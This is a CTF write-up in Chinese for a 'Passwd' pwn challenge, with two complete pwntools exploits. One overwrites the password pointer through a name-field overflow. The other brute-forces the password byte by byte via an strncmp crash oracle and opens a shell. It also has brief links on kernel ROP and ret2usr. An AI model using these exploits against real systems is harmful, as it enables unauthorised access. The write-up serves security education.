

# Pwn

## Passwd（简单的栈溢出，有两种思路可以利用）

### 解题思路一

> 文件读取结束后，相关的缓冲区数据会被清空吗? 不会吧，不会吧

(直接拿郭子仪同学的wp放上来了)

首先nop掉反调试, 恢复结构体   



其中passwd指向我们读入的数据。
然后函数名字也rename一下。


然后看一下这个程序实际上在读取的时候可以将name溢出到passwd来修改passwd指针。


程序使用fopen读取真正的密码，而文件读取结束后相关缓冲区的并不会被清空。所以直接覆盖passwd指针到缓冲区即可。不过要稍微爆破一下。（一开始想复杂了，准备对着mmap一通操作，打freehook）。脚本其实不难，一开始确实想偏了。

#### 最终结果


#### exp

``` python
# encoding=UTF-8
from pwn import *

context.terminal='/bin/zsh'
context.arch = "amd64"
context.log_level = "debug"
elf_path = "./passwd"
elf = ELF(elf_path)
libc = ELF("./libc-2.23.so")
ip = "www.povcfe.site"
port = 10001
#io = remote(ip, port)
#io = process(elf_path)

def input_name(buf):
    io.sendlineafter("Name:", buf)

def input_size(size):
    io.sendlineafter("Length Of New Passwd:", str(size))

def input_passwd(buf):
    io.sendlineafter("Passwd:", buf)

yes = "yes"
no = "no"
def yes_no(s):
    io.sendlineafter("yes/no?:", s)

sw = "1"
ac = "2"
def choice(c):
    io.sendlineafter("[2]:Start A New Article", c)


def input_ac(buf):
    io.sendlineafter("Article(end with '#'):", buf)

while 1:
    #io = remote(ip, port)
    
    io = process(elf_path)
    input_name("abcd")
    input_size(24)
    input_passwd("123456")
    choice(sw)
    yes_no(yes)
    
    buf = "admin"
    buf += "\x00"*0xb   # 填充至name结束，16个
    buf += "\xa0\xd2"   # 开始覆盖passwd指针的低位
    input_name(buf)
    # pause()
    # attach(io)
    buf = "a"*0x14
    input_passwd(buf)
    pause()
    attach(io)

    io.interactive()
```

**郭子仪同学一开始陷入误区的原因是认为mmap基地址与libc基地址偏移固定，其实两者的偏移在不同系统上有可能是不同的。换个思路，因为mmap与libc之间一定是以0x1000为基础进行偏移的，所以在这里可以适度爆破mmap与libc之间的固定偏移，那么这题也是可以做出来的**

### 解题思路二

> 考虑一下strncmp函数是怎么判断字符串相等的?

#### 前置知识

strncmp(str1, str2, n) 的实现原理，是通过逐字节比对直至n字节全部比对完毕，中间如果发现某字节不同，则函数返回。所以，假设str1[0]存储于合法地址，但是str1[1]存储于非法地址(无读取权限的地址)，那么如果在比对第一个字节时，str1与str2不同则正常函数返回，反之如果第一个字节相同，函数继续执行并读取第二个字节(str[1]存储于非法地址)，则程序异常退出。

#### 解体思路

通过溢出可以控制passwd指向的地址，并且程序中存在由mmap开辟的固定内存块0x600000000000-0x600000004000，所以如果把passwd指向0x600000004000-1，那么根据程序的返回状态就可以判断第一个字节是否正确，根据这个方法可以把passwd逐字节爆破

#### exp

``` python
from pwn import *
import time
import sys

# sh = process("./passwd")
# ip = sys.argv[1]
#sh = remote("172.16.202.302", 8888)
sh = remote("geekgame.scuctf.com", 10001)
# context.log_level = "debug"

def login(name, passwd_len, passwd):
    sh.recvuntil("[+] Input Your Name:\n")
    sh.sendline(name)
    if(name == "admin"):
        sh.recvuntil("[+] Input Admin Passwd:")
        sh.sendline(passwd)
    else:
        sh.recvuntil("[+] Please Input The Length Of New Passwd:\n")
        sh.sendline(str(passwd_len))
        sh.recvuntil("[+] Input The New Passwd:\n")
        sh.sendline(passwd)


def switch_account(name, passwd):
    sh.recvuntil("[2]:Start A New Article\n")
    sh.sendline("1")
    sh.recvuntil("[+] Are You Sure To Switch Account? yes/no?:\n")
    sh.sendline("yes")
    sh.recvuntil("[+] Input The New Name:\n")
    sh.sendline(name)
    sh.recvuntil("[+] Input The Passwd:\n")
    sh.sendline(passwd)


def new_article(context):
    sh.recvuntil("[2]:Start A New Article\n")
    sh.sendline("2")
    sh.recvuntil("[+] Input The Content Of Article(end with '#'):\n")
    sh.sendline(context)


passwd = b""
num = 0
addr = 0x600000004000

ppp = 0

while(num < 19):
    login(b"povcfe", 22, b"aaa")
    new_article(b"aaaa#")
    addr = addr - 1
    payload = b"admin" + b"a"*11 + p64(addr)
    while(1):
        ppp = ppp+1
        for i in range(0x20, 0x80):
            try:
                try_passwd = passwd + chr(i).encode()
                switch_account(payload, try_passwd)

            except:
                num = num + 1
                passwd = passwd + chr(i-1).encode()
                log.success("one byte is: " + chr(i-1))
                break

        # sh = process("./passwd")
        sh.close()
        # sh = remote("172.16.202.132", 8888)
        sh = remote("geekgame.scuctf.com", 10001)
        break

login(b"povcfe", 22, b"aaa")
new_article("bbb#")

log.success(str(ppp))
addr = 0x600000000000
while(1):
    payload = b"admin" + b"a"*11 + p64(addr)
    for i in range(0x20, 0x80):

        try_passwd = passwd + chr(i).encode()
        log.success(b"try passwd is: " + try_passwd)
        switch_account(payload, try_passwd)
        time.sleep(1)
        sh.sendline(b"echo bll")
        res = sh.recvline()
        if b"bll" in res:
            sh.interactive()
            log.success("over")
            break
    log.success(b"passwd is: " + try_passwd)
break
```

## Kernel_rop（简单的内核栈溢出）

+ 一．Hint中给出学习内核基础知识的链接，同时hint3直接给出解题的详细步骤，只隐藏ROP构造部分，现已补全[经典ROP](https://www.povcfe.site/2020/05/16/kernel-rop/#more)

+ 二．内核栈溢出除了hint给出的经典ROP利用，还可以使用ret2usr的利用方法(这个方法在hint3所给链接的隔壁，我专门把那篇文章放在了博客首行，并且给出了exp，编译之后直接运行就可以提权orz，竟然没人发现) [ret2usr](https://www.povcfe.site/2020/05/17/kernel-ret2usr/#more)